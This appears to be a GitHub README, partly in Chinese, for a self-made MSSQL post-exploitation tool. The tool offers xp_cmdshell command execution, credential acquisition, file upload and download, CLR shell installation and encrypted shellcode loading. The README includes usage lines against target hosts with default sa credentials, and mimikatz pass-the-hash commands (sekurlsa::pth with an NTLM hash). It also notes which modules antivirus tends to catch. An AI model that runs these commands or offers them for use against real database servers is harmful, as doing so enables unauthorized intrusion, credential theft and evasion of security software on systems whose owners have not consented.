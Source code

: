 ## MSSQL Shell ##
自用mssql shell利用工具
![](img/1.png)
```text
0.exit
1.xp_cmdshell (Easy to be killed by antivirus)
2.startup_components
3.Custom execution sql
4.Credentials acquisition
5.write file
6.read file
7.com_run_execute (Easy to be killed by antivirus)
8.enumerate database
9.sql tools clr install
10.sql tools clr uninstall
11.clr shell
```
注:这里的CLR直接引用https://github.com/Ridter/MSSQL_CLR/ 现成的DLL

install module
```text
pip install impacket
pip install pymssql
```

使用方法
```text
Example:
python .\mssql_shell.py -i <host> -u sa -a sa -d testx -p 996
python .\mssql_shell.py -i <host> -u sa -a sa -d testx
python .\mssql_shell.py -i <host> -u sa -a sa

#windows验证
python .\mssql_shell.py -i <host> --windows
python .\mssql_shell.py -i <host> -d testx -p 996 --windows
python .\mssql_shell.py -i <host> -d testx --windows

Usage: mssql_shell.py [options]

Options:
  -h, --help   show this help message and exit
  -i HOST      target mssql host
  -p PORT      target mssql port(default:1433)
  -d DBNAME    DBName (default:master)
  -u USERNAME  Auth username
  -a PASSWORD  Auath password
  --windows    windows certificate Auth
```

windows验证注意事项:
```text
cmd
runas /noprofile /netonly /user:yayi\Administrator cmd

mimikatz
privilege::debug
sekurlsa::pth /user:<username> /domain:WORKGROUP /ntlm:<ntlm> "/run:cmd.exe /restrictedadmin"
```
![](img/10.png)

本地验证CLR Shell需要输入密码/ntlm (验证成功后重新进入不需要重新输入)

![](img/11.png)

***xp_cmdshell Fake Shell***

![](img/2.png)

***startup_components***

![](img/3.png)

***Custom execution sql***

![](img/4.png)

***Credentials acquisition***

![](img/5.png)

***write file(upload)***  
需要开启Ole Automation Procedures组件
![](img/6.png)

***read file(download)***  
需要开启Ole Automation Procedures组件

![](img/7.png)

***COM Run Execute***

![](img/8.png)

***CLR Shell***

![](img/9.png)

***CLR Encrypt ShellCode Load***
![](img/12.png)
![](img/13.png)